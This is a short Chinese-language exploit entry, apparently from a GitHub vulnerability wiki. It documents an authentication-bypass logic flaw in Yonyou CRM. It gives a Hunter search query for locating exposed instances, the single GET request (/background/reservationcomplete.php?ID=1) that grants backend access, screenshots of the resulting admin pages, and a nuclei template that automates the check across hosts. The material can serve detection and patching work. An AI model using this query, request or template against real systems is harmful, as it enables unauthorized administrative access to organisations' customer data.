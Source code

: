 ## 用友CRM系统存在逻辑漏洞直接登录后台

## 鹰图
```
app.name="用友 CRM"
```

## poc
```
/background/reservationcomplete.php?ID=1
```

访问poc，页面返回空白
![image](https://github.com/wy876/wiki/assets/139549762/75b9ae1d-43b2-4996-a1c9-a9d8bf50d388)

直接就访问主要就登录后台了
![image](https://github.com/wy876/wiki/assets/139549762/9381b9d2-3f2f-4007-bab7-56d62d7c6e81)

![image](https://github.com/wy876/wiki/assets/139549762/6d6076b2-905d-4afe-8388-4ee532fd348a)


## nuclei
```
id: yongyouU8_CRM-reservationcomplete
info:
  name: 用友CRM系统存在逻辑漏洞直接登录后台
  author: wy876
  severity: high

http:
  - raw:
      - |
        GET /background/reservationcomplete.php?ID=1 HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)

      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)

        

    matchers:
      - type: dsl
        dsl:
          - 'contains(body_2,"\"msg\": \"bgsesstimeout-\", \"serverName\"")'
```
